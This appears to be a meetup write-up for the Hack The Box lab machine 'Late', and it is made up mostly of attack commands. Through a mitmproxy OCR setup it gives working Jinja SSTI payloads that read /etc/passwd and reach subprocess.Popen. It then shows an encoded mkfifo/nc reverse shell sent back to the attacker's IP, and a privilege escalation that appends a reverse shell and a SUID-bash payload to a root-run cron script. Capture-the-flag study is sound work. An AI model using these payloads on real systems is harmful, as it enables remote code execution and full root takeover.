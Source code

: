 

# hackdewereld meetup 18-08-2022
late.htb

# hosts
- late.htb 
- images.late.htb # vuln for ssti


# special setting:

If your convert commands fails in the proxy use this command:

```bash
ls /etc/ImageMagick*/policy.xml | while read line; do cp $line $line.bak; done; sed -i 's/16KP/128KP/g' /etc/ImageMagick*/policy.xml
```

# what to do
- make image

I chose to make a mitm proxy solution for this.

- send to server with ocr

You can use curl while running the mitmproxy like this:
```bash
# pane 1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane 2
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
```

The haxhaxhax is injected via mitmproxy.

- ssti

I've tried using tpl-map on this proxy but that didn't work.

```bash
python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=' --proxy 'http://localhost:8800'
```

So let's do it manual.

```bash
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
curl -x 'http://localhost:8800' -d 'ssti={{"7"*7}}' http://images.late.htb/haxhaxhax
# python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=*' --proxy 'http://localhost:8800'

# read /etc/passwd on the server:
curl -Ssx 'http://localhost:8800' -d 'ssti={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}' http://images.late.htb/haxhaxhax

# get all subclasses:
curl -Ssx 'http://localhost:8800' -d 'ssti=abcde {% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %} asdfb' http://images.late.htb/haxhaxhax | w3m -dump -T text/html

# get subprocesses number:
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen
# 243: class'subprocess.Popen
# 475:class 'click.utils.KeepOpenFile
```

Rce:

```bash
# pane 1
ip=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1)
port=9000

index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))']("id",shell=True,stdout=-1).communicate()[0].strip()}} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$ip' '$port' >/tmp/f' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax

# pane 2
nc -lvnp 9000 
# or 
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 9000 && reset
```




# privesc
- writable sbin folder that is exec by root crontab


```bash
# rev shell:
export _IP_=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1) # you can get it like this

# make sure you export the right _IP_ and _PORT_
export _IP_=dummy
export _PORT_=9000

echo "echo $(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$_IP_ $_PORT_' >/tmp/f' | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
# suid bin:
echo -e 'cp /bin/bash /tmp/bash\nchown root:root /tmp/bash\nchmod +x /tmp/bash\nchmod u+s /tmp/bash' >> /usr/local/sbin/ssh-alert.sh;echo bla | ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1 ; /tmp/bash -p
```

and execute it by using ssh on the server

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
```

# ocr with multiple panes

```bash
# pane1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane2 (rev will come here)
nc -lvnp 9000
# pane3
index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
export _IP_=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1) # you can get it like this
export _PORT_=9000
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'echo "echo $(echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$_IP_ $_PORT_' >/tmp/f" | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax
```
![](./ocr2.gif)

# OCR one script (unstable)

```bash
kill -9 $(ps aux | grep -i mitm | awk '{print $2}'); pkill nc; ./one-click-root.py
```

![](./ocr.gif)
